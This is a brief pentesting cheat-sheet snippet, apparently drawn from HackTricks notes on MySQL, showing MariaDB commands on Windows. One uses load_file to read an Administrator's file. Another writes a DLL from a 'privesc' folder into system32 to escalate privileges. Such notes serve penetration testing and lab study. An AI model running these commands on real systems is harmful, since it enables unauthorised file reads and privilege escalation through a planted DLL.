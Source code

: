https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql

# For Windows
```sh
# Read a file
MariaDB [(none)]> select load_file('C:\\\\Users\\Administrator\\Desktop\\proof.txt');

# Dump contents of a file in another file
MariaDB [(none)]> select load_file('C:\\\\programdata\\privesc\\phoneinfo.dll') into dumpfile 'C:\\\\Windows\\system32\\phoneinfo.dll';
```